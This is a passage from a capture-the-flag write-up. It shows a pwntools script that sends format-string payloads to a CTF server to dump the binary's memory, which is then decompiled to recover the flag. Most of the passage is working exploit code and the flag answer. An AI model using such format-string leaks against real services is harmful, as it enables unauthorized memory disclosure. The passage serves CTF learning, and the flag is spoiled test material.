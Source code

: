  ```
target = remote('offsetcheck.deadface.io', 31337)


file1 = open('leaked_elf', 'ab')
base = 0x8048000
#base = 0x804a000 #Use this one when leaking the GOT

while True:
    (target.recvuntil(b'sent to the buffer:'))
    payload = b'%' + str(34).encode('ascii') + b'$s' + b'zbcdefghij'
    payload += b'b' * (20 - len(payload))
    payload += p32(base)
    #print(my_input)
    target.sendline(payload)

    (target.recvuntil(b'Please enter what showed up in EIP:'))
    target.sendline(b'a')
    (target.recvuntil(b'Searching buffer:'))
    (target.recvuntil(b'\x00'))
    leak = target.recvuntil(b'...')
    print(leak)
    leak = leak.replace(b'...', b'').replace(b'zbcdefghij\x00', b'').replace(b'zbcdefghi\x00', b'').replace(b'zbcdefgh\x00', b'').replace(b'zbcdefg\x00', b'').replace(b'zbcdef\x00', b'').replace(b'zbcde\x00', b'').replace(b'zbcd\x00', b'').replace(b'zbc\x00', b'').replace(b'zb\x00', b'').replace(b'z\x00', b'')
    #print(leak[-1])
    if len(leak) > 1 and leak[-1] == 0:
        leak = leak[:-1]
        base -= 1
    if len(leak) != 10:    
        base += len(leak) + 1
        print(leak)
        print(hex(base))
        file1.write(leak + b'\x00')
    else:
        base += len(leak) + 1
        print(leak)
        print(hex(base))
        file1.write(leak)

target.interactive()
```
I ended up running it twice; once with a base address of 0x8048000, and once with a base address of 0x804a000 (0x8049000-0x804a000 turned out to be unallocated memory). The second run would get the GOT/global variable section, and if you copy-pasted the results of both together, it would actually decompile in Ghidra relatively neatly. The main meat of the program is shown below.
![image](https://user-images.githubusercontent.com/10614967/196199471-84a53d3c-d75d-46eb-aa66-0b534189f11e.png)

Here, it appears that some sort of string is being loaded into a stack variable. If we copy-paste all of these hex values and convert them to text, we get a flag!
```
>>> from pwn import *
>>> p32(0x67616c66) + p32(0x3373757b) + p32(0x342d612d) + p32(0x2d74406d) + p32(0x31527453) + p32(0x412d476e) + p32(0x622d644e) + p32(0x33745552) + p32(0x63723066) + p16(0x7d33)
b'flag{us3-a-4m@t-StR1nG-ANd-bRUt3f0rc3}'
```
Thanks for reading!
